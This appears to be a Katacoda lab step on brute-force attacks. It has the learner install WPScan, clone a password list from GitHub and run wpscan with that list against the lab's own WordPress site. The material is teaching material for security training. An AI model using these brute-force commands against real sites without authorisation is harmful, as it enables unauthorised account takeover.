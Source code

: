 ## **3. Introduction Brute-Force Attack**
---

## **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
## Step 1:
### Download the WPscan using the command:

```sh
gem install wpscan{{execute}}
```
<br></br>
## Step 2:
### Clone the crack.txt file which includes a list of password from Github using the command:
```sh
git clone https://github.com/tonywong586/CrackList.git{{execute}}
```
<br></br>
access the CrackList file using the following command:
```sh
cd CrackList
```
<br></br>
## Step 4:
### Use the following command to enforce the Brute-force attack
```sh
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt{{execute}}
```